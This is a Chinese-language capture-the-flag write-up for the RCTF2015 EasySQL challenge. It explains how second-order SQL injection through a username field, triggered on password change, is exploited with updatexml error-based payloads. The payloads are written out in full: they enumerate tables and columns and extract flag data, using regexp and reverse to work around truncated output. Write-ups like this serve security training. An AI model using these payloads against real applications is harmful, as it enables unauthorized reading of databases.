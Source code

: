 # [RCTF2015]EasySQL

## 知识点

`sql注入`

`二次注入`

## 解题

首页为注册界面

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-1.png)

注册一个新用户，登入进去可以修改密码，应该是二次注入

注册时`fuzz`发现部分字符被过滤

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-2.png)

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-3.png)

在`Change password`时显示报错，则可以使用报错注入

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-4.png)

则可推断出这部分的`sql`语句

`update user set password='xxx' where username="xxxx" and pwd='202cb962ac59075b964b07152d234b70'`

方法一: updatexml注入

获取表

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),0x7e),1)#
```

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-6.png)

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-7.png)

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-8.png)

获取列名

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),0x7e),1)#
```

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-9.png)

获取flag内容

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(flag))from(flag)),0x7e),1)#
```

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-10.png)

是个假的`flag`,再找找其他表

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')),0x7e),1)#
```

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-11.png)

但是要输出数据的时候提示没有存在该列，可以推测该列没有被完全输出

可以用`regexp`正则来匹配

因为`&`在`burpsuite`中会被识别为传参，所以需要`url编码`

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-13.png)

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-12.png)

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)),0x7e),1)#
```

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-14.png)

右边的`~`都还没出来，还是`regexp`来找`flag`

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')),0x7e),1)#
```

![Alt text](G:/CTFWriteUp/buuctf/Web/img/21-15.png)

 打印出了前面的`flag`，后面还没显示出来，可以用`reverse`逆序输出`flag`

```sql
admin"^updatexml(1,concat(0x7e,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),0x7e),1)#
```
